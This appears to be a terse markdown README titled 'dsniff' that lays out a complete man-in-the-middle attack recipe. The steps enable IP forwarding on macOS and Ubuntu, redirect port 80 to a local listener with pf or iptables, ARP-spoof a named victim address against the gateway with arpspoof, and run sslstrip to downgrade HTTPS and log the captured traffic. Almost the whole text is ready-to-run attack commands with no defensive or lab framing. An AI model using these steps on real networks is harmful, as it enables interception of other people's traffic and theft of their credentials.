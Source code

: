 # dsniff

## enable ports forward

on mac

	sudo sysctl -w net.inet.ip.forwarding=1
	sudo sysctl -w net.inet.ip.fw.enable=1
	sudo sysctl -w net.inet.fw.verbose=1
	sudo sysctl -w net.inet.ip.fw.verbose=1

on ubuntu

	vim /etc/sysctl.conf

change net.ipv4.ip_forward=0 to net.ipv4.ip_forward=1 

enable it

	sysctl -p

## port redirect

on mac <a href="https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man5/pf.conf.5.html" >pf</a> 

	vim /etc/pf.conf

set configuration

	rdr pass on inet en0 proto { tcp, udp } from any to any port 80 -> 127.0.0.1 port 8000

enable it 

	pfctl -v -n -f /etc/pf.conf
	pfctl -f /etc/pf.conf

on ubuntu <a href="https://help.ubuntu.com/community/IptablesHowTo">iptables</a>

enable iptables

	modprobe ip_tables

port redirect

	iptables -t nat -A PREROUTING -d *.*.*.* -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8000

check

	iptables -t nat --list


delete

	iptables -t nat -D PREROUTING 1

## arp spoof

spoof machine with ip 192.168.0.49 on mac address of 192.168.0.1 by mac address of en0

	sudo arpspoof -i en0 -t 192.168.0.49 192.168.0.1

## ssl strip

	sslstrip -a -l 8000 -w sslstrip.log
	tail -f sslstrip.log

